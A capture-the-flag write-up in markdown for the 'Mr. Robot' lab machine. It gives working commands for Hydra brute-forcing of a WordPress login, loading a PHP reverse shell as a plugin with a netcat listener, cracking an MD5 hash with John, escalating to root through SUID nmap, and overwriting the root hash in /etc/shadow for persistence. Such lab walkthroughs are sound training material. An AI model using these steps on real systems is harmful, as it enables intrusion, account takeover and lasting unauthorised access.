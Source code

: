# Mr. Robot
_IP: 10.0.4.5_

The first thing I did was an nmap scan which you can find i this folder.
Basicly, it did not tell us much, but I found out that there is site running.

_The first thing I checked was:_
https://10.0.4.5/robots.txt

_This is what I've got:_<br>
> User-agent: *<br>
> fsocity.dic<br>
> key-1-of-3.txt

> [!NOTE]
> _key-1-of-3.txt is a flag for ctf doers._

**After some research I figured out that that was a wordpress site.**<br>
Then, I found the login page and started preparing for bruteforce.
Probably there was an easier way, but I ran BurpSuite intercepted traffic while trying to login, and got this line:<br>
> log=user&pwd=pwd&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.0.4.5%2Fwp-admin%2F&testcookie=1

This is how looked a command for bruteforcing a username:<br>
`hydra -L fsocity.dic -p test 10.0.4.5 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp submit=Log+In&redirect_to=http%3A%2F%2F10.0.4.5%2Fwp-admin%2F&testcookie=1:Invalid username" -V`
> [80][http-post-form] host: 10.0.4.5   login: Elliot   password: test

Now I need to bruteforce the password. But first we need to remove dublications from the file since there is a lot of them.<br>
`sort fsocity.dic | uniq > new_fsocity.dic`

You can check the lenght of the file before and after using this command:
`wc -l`

Then run password bruteforcing.<br>
`hydra -l Elliot -P n_fsocity.dic 10.0.4.5 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp submit=Log+In&redirect_to=http%3A%2F%2F10.0.4.5%2Fwp-admin%2F&testcookie=1:The password you entered" -V`

Username: _Elliot_ <br>
Password: _ER28-0652_

Looks like I can upload my own plugins, so I found a simple php reverse-shell, and zipped it, so wordpress thinks it is a plugin.<br>
`zip rev-plug.zip ./shell.php`

Upload the plugin, set up a nc listener, and activate the plugin. Now we have a reverse-shell.
Use this command to upgrade the shell:<br>
`python -c 'import pty; pty.spawn("/bin/bash")'`

We can see that there is a user named robot. Go to his folder and we will find:
> key-2-of-3.txt - Second key for ctfers<br>
> password.raw-md5

This is what I have found in password.raw-md5<br>
> robot:c3fcd3d76192e4007dfb496cca67e13b

Let's crack the hash.<br>
`john --format=raw-md5 --wordlist=/usr/share/wordlists/rockyou.txt robot_hash.txt` <br>
username: _robot_ <br>
password: _abcdefghijklmnopqrstuvwxyz_

Change current user to robot.

## Almost there
**Now we need to find a way to escalate our privileges.**

We cannot run sudo. Let's look what we can do.<br>
I used the next command to find files that I can run with their owner privileges.<br>
`find / -perm -u=s -type f 2>/dev/null`<br>
One of these files was _nmap_.

It is useful to have a simple hash if we need in any case.
> WVLY0mgH0RtUI = mrcake

> [!NOTE]
> https://gtfobins.github.io/ <br>
> Useful site to find ways for privilege escalation.

To escalate our privileges with nmap I do:<br>
`nmap --interactive` <br>
`!sh`

Then modify the password of root in /etc/shadow to our known hash, so that you can easily access it again.<br>
`nano /etc/shadow`<br>
`root:WVLY0mgH0RtUI:16753:0:99999:7:::`

**Thank you for attention.**
